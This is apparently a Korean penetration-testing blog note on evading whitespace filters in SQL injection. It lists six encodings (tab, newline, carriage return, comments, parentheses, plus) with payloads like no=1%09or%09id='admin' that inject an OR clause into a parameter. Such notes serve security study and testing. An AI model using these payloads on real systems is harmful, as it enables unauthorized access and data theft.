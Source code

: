 ```yaml
---
title: "SQL Injection 우회기법"
date: 2023-07-19
# weight: 1
# aliases: ["/Pentest"]
tags: ["Web Security", "Penetration Testing", "SQL Injection"]
author: "CrackerNote"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: true
disableHLJS: false # to disable highlightjs
disableShare: true
hideSummary: false
searchHidden: true
ShowReadingTime: false
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: false
ShowRssButtonInSectionTermList: true
UseHugoToc: false
searchHidden: true
typora-root-url: ../
---
```


## 1️⃣ SQL Injection 우회기법



### 📜****SQL Injection 공격시 공백 문자 필터링시 우회 방법****



1. Tab : %09

 \- no=1%09or%09id='admin'

 

2. Line Feed (\n): %0a

 \- no=1%0aor%0aid='admin'

 

3. Carrage Return(\r) : %0d

 \- no=1%0dor%0did='admin'

 

4. 주석 : /**/

 \- no=1/**/or/**/id='admin'

 

5. 괄호 : ()

 \- no=(1)or(id='admin')

 

6. 더하기 : +

 \- no=1+or+id='admin'

